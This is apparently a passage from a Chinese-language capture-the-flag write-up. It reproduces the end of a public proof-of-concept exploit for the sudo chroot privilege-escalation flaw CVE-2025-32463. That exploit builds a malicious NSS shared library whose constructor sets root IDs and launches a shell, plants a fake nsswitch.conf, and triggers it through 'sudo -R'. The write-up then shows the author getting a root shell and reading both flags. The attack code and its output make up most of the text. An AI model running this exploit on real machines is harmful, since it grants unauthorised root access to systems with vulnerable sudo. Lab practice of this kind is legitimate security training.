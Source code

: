 ```
fi

# Escape the command to safely include it in a C string literal.
# This handles backslashes and double quotes.
CMD_C_ESCAPED=$(printf '%s' "$CMD" | sed -e 's/\\/\\\\/g' -e 's/"/\\"/g')

cat > woot1337.c<<EOF
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void woot(void) {
  setreuid(0,0);
  setregid(0,0);
  chdir("/");
  execl("/bin/sh", "sh", "-c", "${CMD_C_ESCAPED}", NULL);
}
EOF

mkdir -p woot/etc libnss_
echo "passwd: /woot1337" > woot/etc/nsswitch.conf
cp /etc/group woot/etc
gcc -shared -fPIC -Wl,-init,woot -o libnss_/woot1337.so.2 woot1337.c

echo "woot!"
sudo -R woot woot
rm -rf ${STAGE?}
```

直接复制进去，不想下载了

```
todd@5ud0:/tmp$ vim a.sh
todd@5ud0:/tmp$ head -n 5 a.sh 
#!/bin/bash
# sudo-chwoot.sh
# CVE-2025-32463 – Sudo EoP Exploit PoC by Rich Mirch
#                  @ Stratascale Cyber Research Unit (CRU)
STAGE=$(mktemp -d /tmp/sudowoot.stage.XXXXXX)
```

改点东西

![image-20250715214543419](https://7r1umphk.github.io/image/20250715214543644.webp)

改成有漏洞的

```
todd@5ud0:/tmp$ bash a.sh 
woot!
[sudo] password for todd: 
root@5ud0:/# id
uid=0(root) gid=0(root) groups=0(root),1000(todd)
root@5ud0:/# cat /root/root.txt /home/todd/user.txt 
flag{root-257f425d-1ea4-4b8e-8dd8-69523f25d249}
flag{user-80e68759-1ca0-45eb-82a7-601b1f78dfe5}
```

